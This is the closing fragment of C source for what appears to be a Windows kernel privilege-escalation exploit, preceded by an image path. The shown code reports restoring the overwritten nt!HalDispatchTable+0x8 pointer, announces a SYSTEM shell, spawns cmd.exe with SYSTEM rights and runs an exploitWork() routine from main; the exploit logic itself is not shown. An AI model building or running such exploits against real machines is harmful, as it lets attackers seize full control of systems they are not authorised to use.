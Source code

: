 ```c
                  {
                    printf("[+] Successfully restored the pointer at nt!HalDispatchTable+0x8!\n");
                    printf("[+] Enjoy the NT AUTHORITY\\SYSTEM shell!\n");

                    // Spawning an NT AUTHORITY\SYSTEM shell
                    system("cmd.exe /c cmd.exe /K cd C:\\");
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}

// Call exploitWork()
void main(void)
{
  exploitWork();
}
```
